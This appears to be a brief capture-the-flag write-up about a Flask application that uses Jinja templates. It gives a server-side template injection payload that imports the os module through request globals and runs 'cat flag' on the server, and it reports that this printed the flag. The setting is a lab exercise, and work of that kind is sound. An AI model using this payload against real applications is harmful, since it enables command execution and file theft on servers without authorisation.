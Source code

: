 This app is using jinja, a flask tool. 

A common payload for getting files in Jinja is.
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}

By doing this it printed out the flag for me
